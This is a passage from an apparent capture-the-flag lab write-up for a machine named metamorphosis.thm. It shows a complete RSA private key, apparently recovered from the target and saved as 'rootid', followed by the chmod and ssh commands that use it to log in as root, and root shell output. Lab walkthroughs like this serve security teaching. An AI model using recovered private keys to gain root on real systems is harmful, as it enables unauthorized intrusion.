`nano rootid`

```jsx
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyLHluXzbi43DIBFC47uRqkXTe72yPGxL+ImFwvOw8D/vd9mj
rt5SXjXSVtn6TguV2SFovrTlreUsv1CQwCSCixdMyQIWCgS/d+LfUyO3SC4FEr+k
wJ0ALG6wdjmHdRDW91JW0pG9Q+nTyv22K0a/yT91ZdlL/5cVjGKtYIob/504AdZZ
5NyCGq8t7ZUKhx0+TuKKcr2dDfL6rC5GBAnDkMxqo6tjkUH9nlFK7E9is0u1F3Zx
qrgn6PwOLDHeLgrQUok8NUwxDYxRM5zXT+I1Lr7/fGy/50ASvyDxZyjDuHbB7s14
K2HI32lVrx8u4X9Y2zgIU/mlIjuUtTyIAH4kswIDAQABAoIBAQCcPUImIPmZrwcU
09tLBx7je/CkCI3VVEngds9XcfdxUZTPrPMsk490IFpbmt6uG37Qxp2QuauEsUEg
v0uxCbtHJSB169XUftXAMzLAurFY09rHOcK84HzeGl3t6+N0U2PGrqdAzoyVblef
U9yZ3D46Idj3LS9pDumLnNZ0rZAWcaHW+rgjNqjsoBdQL7HGW+sacDAmZzU/Eti9
mH97NnrxkZuGXcnabXWcUj0HFHssCpF8KFPT3xxwtrqkUTJdMvUxxCD54HXiKM3u
jLXlX+HwHfLKHugYvLUuez7XFi6UP83Hiqmq48kB09sBa2iTV/iy6mHe7iyeELaa
9o7WHF2hAoGBAOPxNWc3vH18qu3WC6eMphPdYOaGBjbNBOgzJxzh/evxpSwRSG9V
63gNgKJ8zccQff/HH1n54VS+tuF7RCykRNb+Ne7K/uiDe1TpOKEMi7XtXOYHy5s1
tykL0OPdSs4hN1jMJjkSfPgdNPmxM3bbJMHDPjdQXAK6DnXmOCETaPAnAoGBAOFm
Fhqv8OREYFq+h1mDzMJn5WsNQQZnvvetJR7g3gfKcVblwMhlh504Tf3o00OGCKC1
L4iWMNb6uitKfTmGNta5X8ChWSVxXbb9fOWCOudNGt/fb70SK6fK9CSl66i/niIw
cIcu0tpS/T3MoqwMiGk87ivtW3bK20TsnY0tX3KVAoGAEeJdBEo1OctMRfjjVTQN
28Uk0zF0z1vqpKVOzk9U8uw0v25jtoiRPwwgKZ+NLa83k5f198NJULLd+ncHdFE3
LX8okCHROkEGrjTWQpyPYajL/yhhaz4drtTEgPxd4CpvA0KRRS0ULQttmqGyngK3
sZQ2D3T4oyYh+FIl2UKCm0UCgYEAyiHWqNAnY02+ayJ6FtiPg7fQkZQtQCVBqLNp
mqtl8e6mfZtEq3IBkAiySIXHD8Lfcd+KZR7rZZ8r3S7L5g5ql11edU08uMtVk4j3
vIpxcIRBGYsylYf6BluHXmY9U/OjSF3QTCq9hHTwDb+6EjibDGVL4bDWWU3KHaFk
GPsboZECgYAVK5KksKV2lJqjX7x1xPAuHoJEyYKiZJuw/uzAbwG2b4YxKTcTXhM6
ClH5GV7D5xijpfznQ/eZcTpr2f6mfZQ3roO+sah9v4H3LpzT8UydBU2FqILxck4v
QIaR6ed2y/NbuyJOIy7paSR+SlWT5G68FLaOmRzBqYdDOduhl061ww==
-----END RSA PRIVATE KEY-----
```

`chmod 600 rootid`

`ssh -i rootid root@metamorphosis.thm -p 22`

```jsx
root@incognito:~# whoami
root
root@incognito:~# id
uid=0(root) gid=0(root) groups=0(root)
root@incognito:~# pwd
/root
root@incognito:~#
```

# Appendix

## Remote Synchronization (rsync)

<aside>
💡
